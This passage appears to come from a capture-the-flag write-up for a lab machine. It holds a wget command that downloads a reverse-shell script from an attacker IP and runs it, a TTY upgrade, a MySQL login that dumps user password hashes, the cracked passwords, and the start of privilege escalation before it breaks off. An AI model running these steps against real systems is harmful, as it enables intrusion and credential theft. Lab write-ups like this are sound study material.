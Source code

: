                 </div>
        </div>
</body>
</html>
shell>

```


### Another simpler way to get a shell

```
wget -O /tmp/rev.sh http://10.8.191.218:2345/rev.sh 


/bin/bash /tmp/rev.sh
```

Upgrade the shell to tty with python

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
## Mysql

```
www-data@ubuntu:/var/www/files$ mysql -u root -p webportal
mysql -u root -p webportal
Enter password: !@m+her00+@db

mysql>  show tables;
show tables;
+---------------------+
| Tables_in_webportal |
+---------------------+
| users               |
+---------------------+
1 row in set (0.00 sec)


mysql> select * from users;
select * from users;
+----+-----------+----------+-----------+----------------------------------+
| id | firstname | lastname | username  | password                         |
+----+-----------+----------+-----------+----------------------------------+
|  1 | Anurodh   | Acharya  | Aurick    | 7e53614ced3640d5de23f111806cc4fd |
|  2 | Apaar     | Dahal    | cullapaar | 686216240e5af30df0501e53c789a649 |
+----+-----------+----------+-----------+----------------------------------+
2 rows in set (0.00 sec)

```
<img src="images/crack1.png">
<img src="images/crack2.png">

Anurodh:masterpassword
Apaar:dontaskdonttell


### privesc

```
www-data@ubuntu:/home/apaar$ sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,